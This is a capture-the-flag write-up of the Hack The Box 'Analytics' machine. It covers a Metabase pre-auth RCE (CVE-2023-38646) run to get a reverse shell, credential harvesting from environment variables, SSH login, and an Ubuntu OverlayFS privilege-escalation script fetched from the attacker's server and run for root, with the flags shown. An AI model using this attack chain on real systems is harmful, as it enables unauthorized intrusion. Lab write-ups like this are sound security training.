

**Machine created by:** [7u9y](https://app.hackthebox.com/users/260996) & [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.233 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-03 02:53 AEDT
Nmap scan report for 10.10.11.233
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Lets edit our `/etc/hosts` and add a new entry (If we set it to `analytics.htb` it redirects us to `analytical.htb` so we will use that).

```
10.10.11.233 analytical.htb
```

Visiting [analytical.htb](http://analytical.htb:80) we see a common company landing page.


After clicking `Login` were shown a new subdomain: `data.analytical.htb`.

Lets add that to the `/etc/hosts` file.

```
10.10.11.233 data.analytical.hackthebox,analytical.htb
```

Visiting `data.analytical.htb` we see a Metabase login page.



Looking for Metabase CVE's online I come across a [Pre-Auth RCE PoC](https://github.com/securezeron/CVE-2023-38646) which has a reverse shell script.

## Exploitation & Initial Access

Let's setup a listener locally with nc.

```
$ nc -lvnp 4444
```

And lets run the exploit:

```
$ python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lport 4444 --lhost 10.10.***.***
[DEBUG] Original rhost: http://data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.hackthebox, lhost: 10.10.***.***, lport: 4444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
...
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

and on our listener we see a new shell!

```
Connection from 10.10.11.233:34544
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
218a8fec6c49:/$ whoami
whoami
metabase
```

## User Flag

Now looking through the `/app` directory I read `run_metabase.sh` and see its reading creds from environment variables.

```sh
# usage: file_env VAR [DEFAULT]
#    ie: file_env 'XYZ_DB_PASSWORD' 'example'
# (will allow for "$XYZ_DB_PASSWORD_FILE" to fill in the value of
#  "$XYZ_DB_PASSWORD" from a file, especially for Docker's secrets feature)
# taken from https://github.com/docker-library/postgres/blob/master/docker-entrypoint.sh
# This is the specific function that takes the env var which has a "_FILE" at the end and transforms that into a normal env var.
file_env() {
    local var="$1"
    local fileVar="${var}_FILE"
    local def="${2:-}"
    if [ "${!var:-}" ] && [ "${!fileVar:-}" ]; then
        echo >&2 "error: both $var and $fileVar are set (but are exclusive)"
        exit 1
    fi
    local val="$def"
    if [ "${!var:-}" ]; then
        val="${!var}"
    elif [ "${!fileVar:-}" ]; then
        val="$(< "${!fileVar}")"
    fi
    export "$var"="$val"
    unset "$fileVar"
}
```

Running `printenv` gives us the following output:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=218a8fec6c49
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/app
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
OLDPWD=/
```

In there are the following credentials `metalytics:An4lytics_ds20223#`.

Let's use this on SSH:

```
$ ssh metalytics@analytical.htb
metalytics@analytical.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...
metalytics@analytics:~$ cat user.txt
43b96c62ca27b47911880bebe17962df
```

And there's the user flag!

Flag: `43b96c62ca27b47911880bebe17962df`

## Root Flag

I firstly check `sudo -l` for any living-off-the-land opportunities.

```
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Hmm...

Any SUID binaries? (`find / -type f -perm -04000 -ls 2>/dev/null`)

```
      842     40 -rwsr-xr-x   1 root     root        40496 Nov 24  2022 /usr/bin/newgrp
      697     72 -rwsr-xr-x   1 root     root        72072 Nov 24  2022 /usr/bin/gpasswd
     1111     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
     1187     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
      573     44 -rwsr-xr-x   1 root     root        44808 Nov 24  2022 /usr/bin/chsh
      681     36 -rwsr-xr-x   1 root     root        35200 Mar 23  2022 /usr/bin/fusermount3
     2484    228 -rwsr-xr-x   1 root     root       232416 Apr  3  2023 /usr/bin/sudo
      876     60 -rwsr-xr-x   1 root     root        59976 Nov 24  2022 /usr/bin/passwd
      830     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
      567     72 -rwsr-xr-x   1 root     root        72712 Nov 24  2022 /usr/bin/chfn
     1409     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    13994    332 -rwsr-xr-x   1 root     root         338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
    13665     20 -rwsr-xr-x   1 root     root          18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

None on GTFOBins...

Look at other port activity (`netstat -nltp`), nothing of interest exists their either. 

Nothing inside `printenv`, what now?

I looked up for privilege escalation vulnerabilities in the Ubuntu version supplied once we joined SSH (Ubuntu 22.04.3) and found [CVE-2023-2640 + CVE-2023-32629 PoC](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which gives root!

I cloned the PoC locally and hosted a local python server (`python3 -m http.server`) and downloaded the exploit on the server.

```
metalytics@analytics:/tmp$ chmod +x exploit.sh
metalytics@analytics:/tmp$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# cat /root/root.txt
9db68c8ac70474f468afe8ca2ac44373
```

There's the root flag! 

Flag: `9db68c8ac70474f468afe8ca2ac44373`

Success!


## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev) and [LinkedIn](https://www.linkedin.com/in/noah-cooper-5442ab309/).

You can also find my other contacts on the [whoami](../about) page.